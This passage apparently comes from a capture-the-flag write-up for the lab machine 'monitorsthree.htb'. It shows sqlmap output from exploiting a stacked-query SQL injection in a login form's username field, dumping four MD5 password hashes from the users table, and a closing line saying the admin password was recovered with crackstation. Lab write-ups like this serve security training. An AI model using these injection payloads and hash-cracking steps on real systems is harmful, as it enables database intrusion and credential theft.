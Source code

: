 ```bash

[13:19:26] [INFO] parsing HTTP request from 'request.txt'
[13:19:26] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (X11; U; Linux i686; rv:1.7.3) Gecko/20041020 Firefox/0.10.1' from file '/opt/tools/sqlmap/data/txt/user-agents.txt'
[13:19:26] [WARNING] it appears that you have provided tainted parameter values ('username=' OR 1=1-- --') with most likely leftover chars/statements from manual SQL injection test(s). Please, always use only valid parameter values so sqlmap could be able to run properly
are you really sure that you want to continue (sqlmap could have problems)? [y/N] y
it appears that provided value for POST parameter 'username' has boundaries. Do you want to inject inside? ('' OR 1=1*-- --') [y/N] y
[13:19:28] [INFO] resuming back-end DBMS 'mysql'
[13:19:28] [INFO] testing connection to the target URL
got a 302 redirect to 'http://monitorsthree.htb/forgot_password.php'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: username=' OR 1=1;SELECT SLEEP(5)#-- --
---
[13:19:30] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:19:30] [INFO] fetching entries of column(s) 'password' for table 'users' in database 'monitorsthree_db'
[13:19:30] [INFO] fetching number of column(s) 'password' entries for table 'users' in database 'monitorsthree_db'
[13:19:30] [INFO] resumed: 4
[13:19:30] [INFO] resumed: 1e68b6eb86b45f6d92f8f292428f77ac
[13:19:30] [INFO] resumed: 31a181c8372e3afc59dab863430610e8
[13:19:30] [INFO] resumed: 633b683cc128fe244b00f176c8a950f5
[13:19:30] [INFO] resumed: c585d01f2eb3e6e1073e92023088a3dd
[13:19:30] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[13:19:39] [INFO] writing hashes to a temporary file '/tmp/sqlmaprba3xwq8415084/sqlmaphashes-u3a_ihcz.txt'
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: monitorsthree_db
Table: users
[4 entries]
+----------------------------------+
| password                         |
+----------------------------------+
| 1e68b6eb86b45f6d92f8f292428f77ac |
| 31a181c8372e3afc59dab863430610e8 |
| 633b683cc128fe244b00f176c8a950f5 |
| c585d01f2eb3e6e1073e92023088a3dd |
+----------------------------------+

[13:19:43] [INFO] table 'monitorsthree_db.users' dumped to CSV file '/root/.local/share/sqlmap/output/monitorsthree.htb/dump/monitorsthree_db/users.csv'
[13:19:43] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/monitorsthree.htb'

[*] ending @ 13:19:43 /2025-01-17/
```
- We successfully used crackstation and recoved the clear pass that corresponds to the admin user
